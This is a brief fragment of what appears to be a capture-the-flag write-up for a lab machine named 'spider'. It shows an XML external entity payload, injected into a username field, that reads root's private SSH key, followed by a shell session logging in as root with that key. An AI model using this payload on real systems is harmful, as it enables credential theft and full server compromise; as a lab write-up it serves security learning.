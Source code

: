 ![](screenshots/xxe-to-root-flag.png)

Getting root shell with ssh key
```xml
username=&xxe;&version=1.0.0--><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]><!--
```

```bash
❯ ssh -i root_rsa root@spider.htb
root@spider:~# id
uid=0(root) gid=0(root) groups=0(root)
root@spider:~# 
```
